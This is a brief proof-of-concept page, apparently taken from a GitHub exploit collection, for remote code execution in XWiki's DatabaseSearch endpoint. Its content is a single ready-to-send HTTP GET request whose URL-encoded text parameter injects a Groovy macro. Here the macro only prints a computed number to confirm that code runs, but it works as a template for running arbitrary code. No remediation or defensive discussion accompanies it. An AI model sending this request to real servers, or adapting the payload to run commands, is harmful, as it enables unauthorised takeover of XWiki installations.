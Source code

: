 # xwiki_DatabaseSearch_rce

from: https://github.com/wy876/POC/blob/main/XWiki-Platform%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.md
```
GET /xwiki/bin/get/Main/DatabaseSearch?outputSyntax=plain&text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln%28%22MiTian%20from%22%20%2B%20%22%20search%20text%3A%22%20%2B%20%288888%20%2B%206666%29%29%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D%20 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; QQBrowser/7.0.3698.400)
```
